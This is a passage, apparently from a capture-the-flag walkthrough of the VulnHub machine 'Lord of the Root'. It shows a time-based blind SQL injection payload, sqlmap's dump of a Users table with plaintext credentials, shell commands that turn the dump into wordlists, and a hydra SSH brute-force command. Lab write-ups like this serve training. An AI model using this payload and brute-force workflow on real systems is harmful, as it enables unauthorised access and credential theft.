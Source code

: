 	Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 7506 FROM (SELECT(SLEEP(5)))vOBo) AND 'enuE'='enuE&password=test&submit= Login

	Database: Webapp
	Table: Users
	[5 entries]
	+----+------------------+----------+
	| id | password         | username |
	+----+------------------+----------+
	| 1  | iwilltakethering | frodo    |
	| 2  | MyPreciousR00t   | smeagol  |
	| 3  | AndMySword       | aragorn  |
	| 4  | AndMyBow         | legolas  |
	| 5  | AndMyAxe         | gimli    |
	+----+------------------+----------+
	```
9. Create wordlist
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat sqlmap/192.168.236.10/dump/Webapp/Users.csv | cut -d ',' -f2 | sed 's/password//g' | awk 'NF' > passwords.txt
	
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat sqlmap/192.168.236.10/dump/Webapp/Users.csv | cut -d ',' -f3 | sed 's/username//g' | awk 'NF' > usernames.txt
	
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat usernames.txt 
	frodo
	smeagol
	aragorn
	legolas
	gimli
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# cat passwords.txt 
	iwilltakethering
	MyPreciousR00t
	AndMySword
	AndMyBow
	```
	
## TCP/22 - SSH - Bruteforce
1.  Bruteforce SSH
	```
	┌──(root💀kali)-[~/vulnHub/Lord-of-the-root-1.0.1/192.168.236.10/exploit/SQL]
	└─# hydra -L usernames.txt -P passwords.txt ssh://$ip -e nsr
	Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
